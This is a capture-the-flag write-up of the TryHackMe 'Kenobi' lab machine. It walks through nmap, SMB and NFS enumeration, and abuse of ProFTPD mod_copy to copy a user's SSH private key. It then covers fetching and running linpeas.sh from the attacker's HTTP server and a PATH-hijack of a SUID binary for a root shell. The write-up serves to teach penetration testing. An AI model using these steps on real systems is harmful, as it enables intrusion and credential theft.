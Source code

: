# Kenobi

**IP Address: 10.10.243.180**

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website (Port 80 is open for HTTP):

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate the server information, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80!

Next, I ran an nmap scan on the server. I ran two nmap scans at one time, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```



While I left the thorough nmap scan running in the background, I analyzed the results of the Quick nmap scan, which told me that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** were open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case!



While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the "**anonymous**" share, and it allowed me to do so without requiring any authentication! 



Using the command **ls** revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">



The "**log.txt**" file was just a basic ProFTPD configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

Now we have to make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*



In our case, port 111 is access to a network file system. So I could use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

Hence, we can see that **/var** is a mount!

I can use **netcat** to connect to the machine on its ftp port! This can be done via:

```
nc 10.10.243.180 21
```



With that, I successfully connected to the ftp server.

I then used a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. It gave me 3 possible exploits that could be used! The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">



The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, I know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, I can mount my local computer to the machine, and use that to obtain the **id_rsa** file. This will then allow me to access the machine via **ssh** as user kenobi!



To do this, first, I used the **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">



Next, I created a directory in my local computer's /mnt directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

I then mounted the **/var** directory onto my local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, I could just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">



I then copied the id_rsa file over to my desktop, changed its permissions to be read and write by owner only, using 

```
chmod 600 id_rsa
```

I could then ssh into the machine with the rsa key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 

#### With that, I obtained the flag from "user.txt", which was located in the home directory of the user kenobi.



---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command:

```
find / -perm -u=s -type f 2>/dev/null
```

to find any out-of-the-ordinary files. 

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up! 

On my local computer, I hosted a simple HTTP server using Python's in-built server. I first cd'ed into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

In the victim machine, I used

```
wget http://10.4.6.205:8000/linpeas.sh
```

After successfully downloading, I just had to make it an executable before I could run it! 



After running linpeas, I noticed that there was an interesting file that had its SUID bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">



Upon running the menu binary, I came across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary just allowed us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **ROOT** (due to the SUID bit being set) .

Using the command "**strings**", which allows us to look for human-readable strings on a binary, in this case, on **menu,** 

<img style="float: left;" src="screenshots/screenshot10.png">

it tells us that the commands run in the binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

First, copy the **/bin/sh** shell into a new file called **curl**. Give it the proper permissions (**777**), then put its location into our **PATH**. Since when the /usr/bin/menu binary is run, its using our path variable to find the "curl" binary, it will run the "curl" binary that we created earlier on,which is actually a version of **/usr/sh**. Thus a shell will be opened as root, which means that we have successfully escalated our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when I run the menu binary and run option 1, which uses the "curl" binary that I created earlier on, I will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">



#### With that, I obtained the flag from "root.txt", which was located in the home directory of the root user.





